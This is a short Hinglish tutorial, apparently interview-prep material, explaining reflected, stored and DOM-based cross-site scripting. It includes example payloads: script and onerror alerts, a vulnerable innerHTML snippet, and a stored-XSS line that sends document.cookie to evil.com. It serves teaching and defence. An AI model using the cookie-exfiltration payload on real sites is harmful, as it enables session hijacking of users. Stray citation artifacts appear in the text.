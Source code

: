 ## Cross Site Scripting ( XSS ) Vulnerability Payload List
## 🔍 Overview :

**Cross‑Site Scripting (XSS)** attacks ek tarah ka injection attack hai, jisme attacker malicious scripts ko inject karke ek benign aur trusted website ko compromise kar leta hai. XSS tab hota hai jab attacker web application ka use karke malicious code (mostly browser-side JavaScript) dusre end user ke browser tak bhej deta hai. Ye vulnerability tab exploit hoti hai jab web app user ka input bina validation ya encoding ke output me use kar deti hai—aur ye flaw kaafi common hai. :contentReference[oaicite:0]{index=0}

Attack ka mechanism kuch is tarah ka hai:  
- Attacker XSS ke zariye khatarnaak script bhejta hai unsuspecting user ke browser me.  
- Browser is script ko trusted source (web app) se aane wale code ki tarah samajh leta hai, aur execute kar deta hai.  
- Script browser me store cookies, session tokens, ya sensitive information access kar sakta hai.  
- Ye script HTML page ka content bhi modify (rewrite) kar sakta hai. :contentReference[oaicite:1]{index=1}

# Types of Cross‑Site Scripting (XSS)

## 1. Reflected XSS (Non‑Persistent)  
- **Description:** Server user input ko turant response mein bina sanitize kiye reflect karta hai.  
- **Example:**  
               https://example.com/search?term=<script>alert('XSS')</script>
  Browser is script ko trusted source se samajh ke execute kar deta hai :contentReference[oaicite:0]{index=0}.  
- **Interview mein bolna:**  
“Reflected XSS tab hota hai jab input URL ya form se server tak jaata hai aur response me turant HTML context me reflect hota hai, jisse user click karte hi script run ho jaata hai.”

---

## 2. Stored XSS (Persistent)  
- **Description:** Attacker script database ya kisi stored field (comment/post) mein permanently save kar deta hai.  
- **Example:**  
User ne comment mein `<script>fetch('https://evil.com?c='+document.cookie)</script>` inject kiya, aur jab koi page access karta hai, script execute ho jaata hai :contentReference[oaicite:1]{index=1}.  
- **Interview mein bolna:**  
“Ye sabse khatarnaak hota hai kyunki payload stored rehta hai aur har visitor ke browser mein execute ho sakta hai—session hijack, defacement, phishing sab possible hai.”

---

## 3. DOM‑Based XSS  
- **Description:** Pure client-side hota hai. JavaScript DOM methods (e.g., `innerHTML`) user input ko unsafe tarike se content me inject kar dete hain.  
- **Example:**  
         const name = new URLSearchParams(window.location.search).get('name');
           document.getElementById('greet').innerHTML = name;

Agar URL ho ?name=<img src=x onerror=alert('XSS')>, toh browser me alert box show hoga

- **Interview mein bolna:**  
“Yahaan server safe hai, lekin client-side JS vulnerability hai—data sanitization miss, DOM me inject.”

